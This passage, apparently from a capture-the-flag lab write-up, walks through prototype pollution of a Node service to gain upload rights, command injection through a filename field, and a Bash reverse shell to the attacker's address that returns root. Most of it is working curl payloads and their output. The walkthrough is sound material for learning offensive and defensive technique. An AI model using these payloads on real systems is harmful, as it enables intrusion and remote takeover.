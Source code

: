 
    oxdf@parrot$ curl -X PUT  http://10.10.10.235:31337/ -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"test": "something", "__proto__": {"canUpload": true}}}'
    {"ok":true}

    oxdf@parrot$ curl -X POST http://10.10.10.235:31337/upload -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "test"}'
    {"ok":true,"Uploaded_File":"test"}



This privilege seems to reset within a few seconds of setting it, so
I'll have to work quickly and re-enable it every few uses.

### Exploit Command Injection

#### POC

To see if this works, I'll put a `; [command]` in the filename, and see
if the package will execute that command. I always like to start with a
`ping`. With `tcpdump` listening, I'll send this:



    oxdf@parrot$ curl -X POST http://10.10.10.235:31337/upload -H 'content-type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "x; ping -c 1 10.10.14.7"}'
    {"ok":true,"Uploaded_File":"x; ping -c 1 10.10.14.7"}



I get the ping at `tcpdump`:



    oxdf@parrot$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    13:48:37.119550 IP 10.10.10.235 > 10.10.14.7: ICMP echo request, id 19, seq 1, length 64
    13:48:37.119585 IP 10.10.14.7 > 10.10.10.235: ICMP echo reply, id 19, seq 1, length 64



That's remote code execution (RCE).

#### Shell

I'll swap out the `ping` with a Bash reverse shell. It took a couple
tries to get the quotes right, but on running this:



    oxdf@parrot$ curl -X POST http://10.10.10.235:31337/upload -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "x; bash -c \"bash >& /dev/tcp/10.10.14.7/443 0>&1\""}'
    {"ok":true,"Uploaded_File":"x; bash -c \"bash >& /dev/tcp/10.10.14.7/443 0>&1\""}



A shell returned at `nc`:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.235] 40804
    id
    uid=0(root) gid=0(root) groups=0(root)
